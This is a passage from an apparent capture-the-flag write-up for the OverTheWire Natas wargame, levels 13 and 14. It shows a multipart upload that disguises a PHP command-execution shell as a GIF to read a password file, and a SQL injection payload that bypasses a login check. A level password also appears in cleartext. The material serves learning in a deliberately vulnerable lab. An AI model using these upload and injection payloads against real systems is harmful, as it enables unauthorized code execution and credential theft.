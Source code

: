 ```
------WebKitFormBoundarya8snrslosPiK9vI2
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
------WebKitFormBoundarya8snrslosPiK9vI2
Content-Disposition: form-data; name="filename"

9q708avz39.php
------WebKitFormBoundarya8snrslosPiK9vI2
Content-Disposition: form-data; name="uploadedfile"; filename="natas13.php"
Content-Type: application/octet-stream

GIF89a
<?php
    passthru("cat /etc/natas_webpass/natas13")
?>
------WebKitFormBoundarya8snrslosPiK9vI2--
```

Following the link to the uploaded resource, we can see the GIF magic number that we prepend to the PHP code and the result of the command in `passthru()`

natas14: `qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP`

# Natas 14

To get the password for the next level, the result of the query 
```sql
SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"
```
must return the result consisting of one or more lines (the check is at `mysqli_num_rows`). We obviously have no clue what is in the database, indeed any attempt in trying the `username` of `natas14` or `natas15` does not work.

This code is vulnerable to SQL injection, as we can directly manipulate the query to whatever we want. Also there is a debug function to help us out, by putting the URL parameter of `debug` in the POST request to the server. Submitting the form will do a POST request to the endpoint at `/index.php`. Hence, to enable the debug mode to see our command (which is very useful), we can use the intercept functionality, along with the in-app browser of Burp Suite to manipulate the URL parameter in the POST request to the backend.

We have no idea of the password in the database, hence we need a way to escape the query. Doing `"` at the beginning closes the first quotation mark in the `username` field. Of course no username matches `""` (empty string), hence we need a condition that is always True. Looking up on Google, we can see one common way is to put `or true` in the payload to make the result of the query always True. To escape all the conditions at the end of the query, again from simple Googling, we can use the comment in `mysql`: `--`. In MySQL, the `--`  (double-dash) comment style requires the second dash to be followed by at least one whitespace or control character (such as a space, tab, newline, and so on).

From all of the information above, our username field will be `" or true;-- ` (notice the space after the double-dash). The password field can be anything, due to the double dash `--` everything in the `password` comparison will be ignored anyways. I put `abcd` as the password. The query will become:
